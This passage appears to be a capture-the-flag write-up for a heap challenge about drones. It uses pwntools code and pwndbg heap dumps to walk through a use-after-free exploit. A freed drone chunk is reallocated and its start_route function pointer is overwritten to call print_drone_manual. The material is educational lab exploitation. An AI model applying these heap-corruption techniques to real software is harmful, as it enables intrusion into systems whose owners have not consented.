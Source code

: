 ```
r = Pwn(PROG, conn='uap.ctf.intigriti.io 1340')

r.sla(b'option: ', b'1')
```

You can see it in pwndbg:

```
pwndbg> heap
*** snipped***
# Drone
Allocated chunk | PREV_INUSE
Addr: 0x603ab0
Size: 0x30 (with flag bits: 0x31)

Top chunk | PREV_INUSE
Addr: 0x603ae0
Size: 0x20520 (with flag bits: 0x20521)

pwndbg> x/6gx 0x603ab0
0x603ab0:       0x0000000000000000      0x0000000000000031
0x603ac0:       0x0000000000000001      0x0000000000400da0
0x603ad0:       0x0000000000400892      0x00000000004008b8 -> function pointers!
```

Next, we retire the drone.
```
r.sla(b'option: ', b'2')
r.sla(b'retire: ', b'1')
```

```
pwndbg> heap
*** snipped***
# Drone is freed
Free chunk (tcachebins) | PREV_INUSE
Addr: 0x603ab0
Size: 0x30 (with flag bits: 0x31)
fd: 0x603

Top chunk | PREV_INUSE
Addr: 0x603ae0
Size: 0x20520 (with flag bits: 0x20521)

pwndbg> bins
tcachebins
0x30 [  1]: 0x603ac0 ◂— 0
```

Now, when we call enter_drone_route(), it will take the place of the freed chunk. Write over start_route to now point to print_drone_manual.

```
r.sla(b'option: ', b'4')

pay = b'A' * 16
pay += p64(r.sym['print_drone_manual'])
r.sla(b'data: ', pay)
```
